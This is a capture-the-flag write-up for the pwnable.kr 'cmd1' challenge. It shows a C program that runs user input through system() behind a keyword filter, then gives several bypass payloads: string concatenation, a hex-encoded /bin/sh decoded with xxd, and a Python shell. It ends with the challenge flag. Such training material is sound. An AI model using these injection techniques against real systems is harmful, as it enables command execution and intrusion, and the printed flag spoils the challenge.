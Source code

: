 ```yaml
---
title: "Pwnable.kr - cmd1"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/pwnable.png
ribbon: red
description: "The next two challenges (cmd1 and cmd2) are about bypassing input filters to execute a command.
First it changes the `$PATH` environment variable (which contains the paths to executables) to an unknown location, this way we cannot just use for example `echo test`, it should be `/bin/echo test`..."
categories:
  - Binary Exploitation
---
```


> Challenge description:
>
> Mommy! what is PATH environment in Linux?



```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

The next two challenges (cmd1 and cmd2) are about bypassing input filters to execute a command.

First it changes the `$PATH` environment variable (which contains the paths to executables) to an unknown location, this way we cannot just use for example `echo test`, it should be `/bin/echo test`.

There is more than one solution to this challenge, I will list some of them.

> Notice the difference between single quotes and double quotes in argv:
>
> $ ./test '$(echo abc)' <br>argv[1] = $(echo abc)
>
> $ ./test "$(echo abc)"<br>
> argv[1] = abc
>
> Single quotes pass the command without executing it.<br>Double quotes executes the command then passes its output (cannot pass the filter).

# Solution:

```
cmd1@pwnable:~$ ./cmd1 '$(printf "/bin/cat %s%s" "fl" "ag")'
```

```
cmd1@pwnable:~$ ./cmd1 '$(/bin/echo 2f62696e2f7368 | /usr/bin/xxd -r -p)'  # 2f62696e2f7368 = /bin/sh
$ /bin/cat flag
```

```
cmd1@pwnable:~$ ./cmd1 '$(/usr/bin/python)'
>>> f = open("/tmp/myflag", "w")
>>> f.write(open("flag").read())
>>>
cmd1@pwnable:~$ cat /tmp/myflag
```

Flag: `mommy now I get what PATH environment is for :)`
